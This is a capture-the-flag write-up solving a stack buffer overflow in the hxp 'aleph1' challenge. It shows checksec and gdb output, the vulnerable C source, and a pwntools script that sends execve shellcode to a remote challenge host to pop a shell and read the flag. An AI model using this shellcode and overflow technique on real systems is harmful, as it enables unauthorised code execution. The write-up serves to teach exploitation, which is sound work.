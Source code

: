 ## aleph1

Let's take a look at the elf:

```
$	file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=acfb044e627fb11294c7611f1b03a5387c04a72e, not stripped
$	pwn checksec vuln
[*] '/Hackery/hxp/bb/aleph1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

So we can see that this is a 64 bit elf, with no stack canary, PIE, RELRO, and an executable stack abd RWX segments (Read, Writeable, Executable). In addition to that, the challenge stated that aslr was disabled on the challenge. Let's look at the source code for the program:

```
$	cat vuln.c 
#include <stdio.h>

int main()
{
    char yolo[0x400];
    fgets(yolo, 0x539, stdin);
}
```

So looking at this code, we can see that it simply scans in `0x539` bytes into a char array with only `0x400` bytes. It is clear that this is a buffer overflow vulnerabillity. Since ASLR is disabled, and there is an Executable Stack, we should be able to simply load shellcode into memory and call it. Since ASLR is disabled, we don't need an infoleak. We can just use gdb to find where our input is stored:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x00000000004005ca <+0>:	push   rbp
   0x00000000004005cb <+1>:	mov    rbp,rsp
   0x00000000004005ce <+4>:	sub    rsp,0x400
   0x00000000004005d5 <+11>:	mov    rdx,QWORD PTR [rip+0x200a54]        # 0x601030 <stdin@@GLIBC_2.2.5>
   0x00000000004005dc <+18>:	lea    rax,[rbp-0x400]
   0x00000000004005e3 <+25>:	mov    esi,0x539
   0x00000000004005e8 <+30>:	mov    rdi,rax
   0x00000000004005eb <+33>:	call   0x4004d0 <fgets@plt>
   0x00000000004005f0 <+38>:	mov    eax,0x0
   0x00000000004005f5 <+43>:	leave  
   0x00000000004005f6 <+44>:	ret    
End of assembler dump.
gdb-peda$ b *main+38
Breakpoint 1 at 0x4005f0: file vuln.c, line 6.
gdb-peda$ r
Starting program: /Hackery/hxp/bb/aleph1/vuln 
15935728

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdb70 ("15935728\n")
RBX: 0x0 
RCX: 0xfbad2288 
RDX: 0x7fffffffdb70 ("15935728\n")
RSI: 0x7ffff7dd3770 --> 0x0 
RDI: 0x7fffffffdb71 ("5935728\n")
RBP: 0x7fffffffdf70 --> 0x400600 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffdb70 ("15935728\n")
RIP: 0x4005f0 (<main+38>:	mov    eax,0x0)
R8 : 0x602019 --> 0x0 
R9 : 0x7ffff7fd3700 (0x00007ffff7fd3700)
R10: 0x7ffff7dd1b58 --> 0x602410 --> 0x0 
R11: 0x246 
R12: 0x4004e0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe050 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005e3 <main+25>:	mov    esi,0x539
   0x4005e8 <main+30>:	mov    rdi,rax
   0x4005eb <main+33>:	call   0x4004d0 <fgets@plt>
=> 0x4005f0 <main+38>:	mov    eax,0x0
   0x4005f5 <main+43>:	leave  
   0x4005f6 <main+44>:	ret    
   0x4005f7:	nop    WORD PTR [rax+rax*1+0x0]
   0x400600 <__libc_csu_init>:	push   r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdb70 ("15935728\n")
0008| 0x7fffffffdb78 --> 0xa ('\n')
0016| 0x7fffffffdb80 --> 0x0 
0024| 0x7fffffffdb88 --> 0x0 
0032| 0x7fffffffdb90 --> 0x0 
0040| 0x7fffffffdb98 --> 0x7ffff7ffe4c0 --> 0x7ffff7ffe420 --> 0x7ffff7ff69c8 --> 0x7ffff7ffe168 --> 0x0 
0048| 0x7fffffffdba0 --> 0x7fffffffdcf0 --> 0x7ffff7ffe700 --> 0x7ffff7ffa000 (jg     0x7ffff7ffa047)
0056| 0x7fffffffdba8 --> 0x7ffff7ff6d58 --> 0x7ffff7dd77a9 ("GLIBC_2.2.5")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004005f0 in main () at vuln.c:6
6	    fgets(yolo, 0x539, stdin);
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602010 ("15935728\n")
[stack] : 0x7fffffffdb70 ("15935728\n")
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/Hackery/hxp/bb/aleph1/vuln
0x00600000         0x00601000         r-xp	/Hackery/hxp/bb/aleph1/vuln
0x00601000         0x00602000         rwxp	/Hackery/hxp/bb/aleph1/vuln
0x00602000         0x00623000         rwxp	[heap]
0x00007ffff7a10000 0x00007ffff7bce000 r-xp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7bce000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r-xp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rwxp	/lib/x86_64-linux-gnu/libc-2.24.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rwxp	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7fd3000 0x00007ffff7fd5000 rwxp	mapped
0x00007ffff7ff5000 0x00007ffff7ff8000 rwxp	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r-xp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rwxp	/lib/x86_64-linux-gnu/ld-2.24.so
0x00007ffff7ffe000 0x00007ffff7fff000 rwxp	mapped
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
``` 

Here we can see that our input is stored at `0x602010`. With that we should be able to form a payload starting with shellcode, then the offset to the return address, then the address `0x602010` to call our shellcode. Let's find the offset to the return address.

```
Breakpoint 1, 0x00000000004005f0 in main () at vuln.c:6
6	    fgets(yolo, 0x539, stdin);
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602010 ("15935728\n")
[stack] : 0x7fffffffdb70 ("15935728\n")
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdf80:
 rip = 0x4005f0 in main (vuln.c:6); saved rip = 0x7ffff7a303f1
 called by frame at 0x7fffffffe040
 source language c.
 Arglist at 0x7fffffffdf70, args: 
 Locals at 0x7fffffffdf70, Previous frame's sp is 0x7fffffffdf80
 Saved registers:
  rbp at 0x7fffffffdf70, rip at 0x7fffffffdf78
```

a bit of Python math:

```
>>> hex(0x7fffffffdf78 - 0x7fffffffdb70)
'0x408'
```

With that, we can see that the offset from the start of our input is `0x408` bytes. With this, we can write our exploit:

```
#Import pwntools
from pwn import *

#Establish the target process
#target = process('./vuln')
#gdb.attach(target)
target = remote("35.205.206.137", 1996)


#Establish the shellcode
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"

#Write the payload
payload = shellcode + "0"*0x3f0 + p64(0x602010)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

and when we run it:

```
$	python exploit.py 
[+] Opening connection to 35.205.206.137 on port 1996: Done
[*] Switching to interactive mode
$ ls
flag.txt
vuln
ynetd
$ cat flag.txt
hxp{Sm4sh1nG_tH3_sT4cK_L1k3_iT's_1996}
[*] Got EOF while reading in interactive
```

Just like that, we captured the flag.
